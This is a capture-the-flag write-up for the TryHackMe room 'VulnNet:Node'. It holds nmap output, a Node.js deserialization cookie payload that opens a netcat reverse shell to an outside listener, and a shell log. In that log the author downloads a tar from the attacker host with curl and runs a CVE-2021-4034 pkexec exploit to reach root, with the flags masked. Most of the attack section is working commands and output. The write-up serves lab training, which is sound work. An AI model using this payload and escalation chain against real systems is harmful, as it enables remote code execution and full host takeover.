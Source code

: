 ## VulnNet:Node
https://tryhackme.com/room/vulnnetnode

## Enum
```
nmap -Pn -sC -sV 10.10.249.120 -vv

PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 61 Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

nmap -Pn -sC -sV ip.thm -p 8080 -A

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
```
![image](https://user-images.githubusercontent.com/6504854/190453572-5b79952d-fc21-465b-8405-9140cacf286c.png)

![image](https://user-images.githubusercontent.com/6504854/190453646-5bf4fc68-fe4b-417c-a9c8-922afdfb026b.png)

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

![image](https://user-images.githubusercontent.com/6504854/190455639-f09253f2-0929-42cb-8279-2cc34bed8c58.png)

```
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":false,"encoding": "utf-8"}
```
🏴 Cookie:session payload is base64 encoded code. 

## Flag
```
listening on [any] 4444 ...
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty; pty.spawn("/bin/bash")';
www@vulnnet-node:~/VulnNet-Node$ ls -la /usr/bin/pkexec

ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2018 /usr/bin/pkexec

www@vulnnet-node:~/VulnNet-Node$ curl http://10.10.10.10/1.tar -o 1.tar

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 92160  100 92160    0     0  39300      0  0:00:02  0:00:02 --:--:-- 39300

www@vulnnet-node:~/VulnNet-Node$ tar -xvf 1.tar
tar -xvf 1.tar
./cve-2021-4034
./README.md

www@vulnnet-node:~/VulnNet-Node$ ./cve-2021-4034
./cve-2021-4034

# cat /root/root.txt
cat /root/root.txt
THM{ab*****************************}

# ls /home
ls /home
serv-manage  www

# cat /home/serv-manage/user.txt
cat /home/serv-manage/user.txt
THM{06*****************************}
#
```
Thank you for your time and Happy Hacking. 😋

ちゃんとやるのはどなたかのみてくだされ～、ちゃんとやったけどとてもよくできてるので。

Terminarlがー激重なんす。。。。どうして。



